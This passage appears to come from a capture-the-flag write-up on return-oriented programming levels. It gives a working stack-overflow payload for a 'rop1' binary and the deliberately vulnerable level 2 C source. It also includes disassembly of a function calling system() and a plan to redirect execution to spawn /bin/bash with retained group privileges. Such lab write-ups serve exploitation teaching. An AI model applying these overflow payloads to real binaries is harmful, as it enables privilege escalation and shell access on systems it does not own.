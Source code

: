 our `ret` pointer should be on `&buf + 136 + 4(for $ebp)`

hence, using the hint given
`cat <(python -c 'print "my_exploit_string"') - | ./rop1`

`cat <(python -c 'print "A" * 140 + "\xa4\x84\x04\x08"') -| ./rop1`



Level 2 
---

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char * not_used = "/bin/bash";

int not_called() {
   return system("/bin/date");
}

void vulnerable_function() {
   char buf[128];
   read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
   // /bin/sh is usually symlinked to bash, which usually drops privs. Make
   // sure we don't drop privs if we exec bash, (ie if we call system()).
   gid_t gid = getegid();
   setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
   vulnerable_function();
   write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

apparently we want `system` to call them as following 

```c
system(not_used)
```

and repeat with same trick in level 1. 

lets look at some basic :   

```asm
080484a4 <not_called>:
 80484a4:   55                      push   %ebp
 80484a5:   89 e5                   mov    %esp,%ebp
 80484a7:   83 ec 18                sub    $0x18,%esp
 80484aa:   c7 04 24 1a 86 04 08    movl   $0x804861a,(%esp) # *$0x804861a = "/bin/date"
 80484b1:   e8 ea fe ff ff          call   80483a0 <system@plt>
 80484b6:   c9                      leave  
 80484b7:   c3                      ret  
```
